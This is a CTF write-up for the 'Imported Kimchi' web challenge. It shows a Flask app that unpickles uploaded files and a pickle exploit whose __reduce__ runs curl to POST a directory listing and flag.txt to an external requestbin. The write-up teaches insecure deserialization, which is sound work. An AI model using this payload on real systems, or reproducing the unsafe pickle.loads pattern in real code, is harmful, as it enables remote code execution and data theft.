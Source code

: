 Title: Imported Kimchi
Description: Simple python web challenge on unpickling untrusted user input. 
Date: 2022-03-14
Category: CTF writeups
Tags: web

# Imported kimchi

Even though I did not have the time to redeem the flag while the CTF was running I wanted to do a quick writeup since I haven't played with Pythons `pickle` module before.

The challenge was available under [https://imported-kimchi.cha.hackpack.club/](https://imported-kimchi.cha.hackpack.club/).

![challenge landing page]({static}/images/landing_page.png)

On the site a user can upload images which are then available under [https://imported-kimchi.cha.hackpack.club/images/](https://imported-kimchi.cha.hackpack.club/images/).

![upload page]({static}/images/upload.png)

The source code of the flask app was provided:

``` python
import uuid
from flask import *
from flask_bootstrap import Bootstrap
import pickle
import os

app = Flask(__name__)
Bootstrap(app)

app.secret_key = 'sup3r s3cr3t k3y'

ALLOWED_EXTENSIONS = set(['png', 'jpg', 'jpeg'])

images = set()
images.add('bibimbap.jpg')
images.add('galbi.jpg')
images.add('pickled_kimchi.jpg')

@app.route('/')
def index():
    return render_template("index.html", images=images)

@app.route('/upload', methods=['GET', 'POST'])
def upload():
    if request.method == 'POST':
        image = request.files["image"]
        if image and image.filename.split(".")[-1].lower() in ALLOWED_EXTENSIONS:
            # special file names are fun!
            extension = "." + image.filename.split(".")[-1].lower()
            fancy_name = str(uuid.uuid4()) + extension

            image.save(os.path.join('./images', fancy_name))
            flash("Successfully uploaded image! View it at /images/" + fancy_name, "success")
            return redirect(url_for('upload'))

        else:
            flash("An error occured while uploading the image! Support filetypes are: png, jpg, jpeg", "danger")
            return redirect(url_for('upload'))

    else:
        return render_template("upload.html")

@app.route('/images/<filename>')
def display_image(filename):
    try:
        pickle.loads(open('./images/' + filename, 'rb').read())
    except:
        pass
    return send_from_directory('./images', filename)

if __name__ == "__main__":
    app.run(host='0.0.0.0')
```

The problems seems to be with the use of pythons `pickle` module.
David Hamann wrote a [blog post](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) about the issue with unpickling untrusted user input.

In a similar fashion we can create a python script that creates a file that when unpickled reads the flag:

``` python
import pickle
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('curl https://requestbin.io/1bmggxr1 -X POST -d "$(ls -la; cat flag.txt)"',))

shellcode = pickle.dumps(Exploit())
f = open('images/asdf.png', 'w+b')
f.write(bytearray(shellcode))
f.close()
```

The python script uses the `pickle.dumps` function to create a pickled object of type `Exploit`.
This class implements the `__reduce__` function that is called when the object is unpickled.
During unpickling this function uses `os.system` to read the contents of the current directory, as well as the flag and sends it via an HTTP POST request to a requestbin that can be easily created on [https://requestbin.io](https://requestbin.io)

![screenshot requestbin]({static}/images/requestbin.png)
